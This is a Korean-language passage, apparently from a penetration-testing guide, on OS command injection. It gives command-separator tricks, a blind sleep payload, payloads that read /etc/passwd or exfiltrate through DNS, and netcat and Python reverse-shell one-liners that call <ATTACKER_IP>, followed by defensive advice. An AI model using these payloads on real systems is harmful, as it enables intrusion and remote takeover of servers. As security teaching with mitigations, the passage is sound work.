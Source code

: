 개발자가 편의를 위해 시스템 셸을 직접 호출하는 기능에서 주로 발견됩니다.

  * **진단 도구**: `ping`, `nslookup`, `traceroute` 기능을 제공하는 웹 인터페이스
  * **파일 처리**: 이미지 변환(ImageMagick), 파일 압축/해제, 파일 포맷 변환 기능
  * **소스코드 연동**: Git 관련 기능(저장소 클론, 로그 조회 등)
  * **레거시 CGI 스크립트**

#### **Exploitation Techniques**

단순한 `whoami` 실행을 넘어, 체계적인 접근이 필요합니다.

1.  **명령어 구분자(Command Separator) 탐색**: 필터링 환경을 우회하기 위해 다양한 구분자를 테스트해야 합니다.

      * `;` : 앞의 명령이 실패해도 뒷 명령 실행 (가장 일반적)
      * `&&`: 앞의 명령이 성공해야 뒷 명령 실행
      * `||`: 앞의 명령이 실패해야 뒷 명령 실행
      * `|` : 앞의 명령 결과를 뒷 명령의 입력으로 전달 (Pipe)
      * 줄바꿈 문자: `%0a` 또는 `\n`
      * 백틱(`` ` ``) 또는 `$()`: Command Substitution. 다른 명령어의 실행 결과를 인자로 사용.

    **Payload Example (Blind Command Injection):**
    `127.0.0.1; sleep 10` - 응답 시간이 10초 지연되는지 확인하여 취약점 유무 판단.

2.  **데이터 유출 (Data Exfiltration)**:

      * **In-band**: `127.0.0.1; cat /etc/passwd` - 명령어 실행 결과가 웹페이지에 직접 노출될 때.
      * **Out-of-band (OAST)**: ` nslookup  `whoami`.your-burp-collaborator-domain.com` - 방화벽으로 인해 직접적인 응답을 받기 어려울 때, DNS 쿼리를 이용해 외부에서 데이터를 확인.

3.  **Reverse Shell - The Ultimate Goal**:
    단발성 명령어 주입을 넘어, 서버의 셸을 획득하는 것이 핵심입니다. 환경에 따라 다양한 페이로드가 사용됩니다.

    **Classic Netcat Reverse Shell:**
    `ip_address; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f`

    **Python Reverse Shell (Netcat이 없는 경우):**
    `ip_address; python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`

#### **방어 전략 (Defensive Strategies)**

보고서에 이 취약점을 보고할 때, 개발팀에게 다음과 같은 구체적인 방어 전략을 제시해야 합니다.

1.  **OS 명령어 직접 호출 금지**: 가능한 한 시스템 셸을 직접 호출하는 `system()`, `exec()` 등의 함수 사용을 피하고, 프로그래밍 언어가 제공하는 내장 API를 사용하도록 권고해야 합니다. 예를 들어, 파일이 존재하는지 확인하고 싶다면 `os.system("ls " + filename)` 대신 `os.path.exists(filename)`를 사용하는 것이 근본적인 해결책입니다.

2.  **명령어와 인자 분리**: 부득이하게 외부 명령어를 실행해야 한다면, 사용자 입력이 셸에 의해 해석되지 않도록 명령어와 인자를 명확하게 분리해서 전달해야 합니다.

      * **Python 예시:** `subprocess.run(['ls', '-l', user_input], shell=False)` 와 같이 `shell=False` 옵션을 사용하고 인자를 배열로 전달하면, `user_input`은 단순한 문자열로 취급되어 셸 메타 문자가 해석되지 않습니다.

3.  **입력값 검증 및 이스케이프**: 최후의 수단으로, 허용된 문자만 받는 'Allow List' 기반의 검증을 적용하고, 셸에서 특별한 의미를 갖는 메타 문자(`; | & $ > < \` ' "\`)를 이스케이프 처리하도록 가이드해야 합니다. 하지만 이 방법은 우회 가능성이 높아 권장되지 않습니다.

-----

### 2\. NoSQL Injection: Abusing the Flexibility of Modern Databases
